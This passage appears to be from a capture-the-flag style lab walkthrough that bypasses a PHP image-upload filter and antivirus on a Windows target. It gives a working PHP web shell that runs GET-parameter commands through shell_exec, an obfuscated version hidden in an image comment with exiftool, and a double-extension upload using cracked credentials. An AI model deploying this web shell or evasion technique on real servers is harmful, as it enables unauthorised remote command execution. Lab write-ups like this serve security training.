 This file consist of image upload source.

> TL;DR Only allows image formats to upload, checks for image size (dimension), after successful upload it moves that file to ‘uploads’ directory.

We have to bypass file format and size to successfully upload our PHP payload. This can be done with ‘exiftool’. However, an endpoint security (AV) is running on this windows OS. To bypass that we need to obfuscate our PHP payload. To do that we can use this following online tool.

[PHP Obfuscator](https://www.gaijin.at/en/tools/php-obfuscator)

We will use below PHP code to obfuscate.

```
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

![Screen Shot 2021-09-15 at 00.30.03.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/0E1B4224-BBB6-43A0-AE9B-6C0D80080D1C_2/Screen%20Shot%202021-09-15%20at%2000.30.03.png)

![Screen Shot 2021-09-15 at 00.30.27.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/3CC97DC5-980C-4AFF-90BF-795104DDD1DE_2/Screen%20Shot%202021-09-15%20at%2000.30.27.png)

We can now use obfuscated payload with exiftool. Download any image from the internet or use any default image from your machine.

```
⛩\> exiftool -Comment="<?php \$l0=\$_GET[base64_decode('Y21k')];if(isset(\$l0)){echo base64_decode('PHByZT4=').shell_exec(\$l0).base64_decode('PC9wcmU+');}die();?>" rce.png
    1 image files updated

⛩\> cp rce.png rce.png.php
```

So, we commenting our payload inside image under ‘comment’ section, then renaming it to ‘.png.php’.

**Note: Make sure to escape $ from the obfuscated code.**

Now let’s visit the /resources endpoint and upload our payload.

![Screen Shot 2021-09-15 at 00.35.47.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/96B19048-8430-4BC8-A306-9A30F61A9172_2/Screen%20Shot%202021-09-15%20at%2000.35.47.png)

Authentication mechanism in place, so let’s use ‘thomas’ as username and password which we previously cracked.

![Screen Shot 2021-09-15 at 00.37.05.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/59E75746-6434-4FB4-A3F5-A4067879F06D_2/Screen%20Shot%202021-09-15%20at%2000.37.05.png)

Let’s upload the payload.

![Screen Shot 2021-09-15 at 00.37.51.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/5259E371-DB98-4710-A324-861CCD23E5DB_2/Screen%20Shot%202021-09-15%20at%2000.37.51.png)

It worked and now we need to access the payload.
